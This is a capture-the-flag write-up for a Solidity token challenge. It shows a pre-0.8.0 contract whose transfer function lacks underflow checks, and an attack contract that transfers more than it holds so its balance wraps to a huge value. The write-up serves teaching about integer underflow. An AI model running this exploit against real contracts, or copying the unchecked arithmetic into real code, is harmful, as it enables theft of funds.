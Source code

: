 # Challenge 5 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

Challenge
---
> You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Solution
--- 
1. If you look at the contract You will see the 3 function `constructor`, `transfer` and `balanceOf`. `constructor` will the set the whoever deploys the contract. `transfer` takes `address` of the `recepient` and `value` and `balanceOf` will returns the how may token owner owns. 

2. `transfer` function is vulnerable that is overflow/undeflow.

Here's the gotcha my fellow friend,
> < 0.8.0 no checks for the overlow/undeflow without any errors.

> Default behaviour of Solidity 0.8.0 or higher version for overflow / underflow is to throw an error.

Here's The code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract TokenAttack {
    Token tokenAddress;

    constructor(address _addr) public  {
        tokenAddress = Token(_addr);
    }

    function solveTransfer() public returns(bool) {
        bool result = tokenAddress.transfer(address(this),21000001);
        return result;
    }
}
```

If You want to learn OverFlow/Undeflow Here's the [link.](https://ethereum-blockchain-developer.com/010-solidity-basics/03-integer-overflow-underflow/)

Make New Contract and create `solveTransfer` provide address and value that will do overflow/undeflow. now you can submit the instance and you will see your console with completed level message.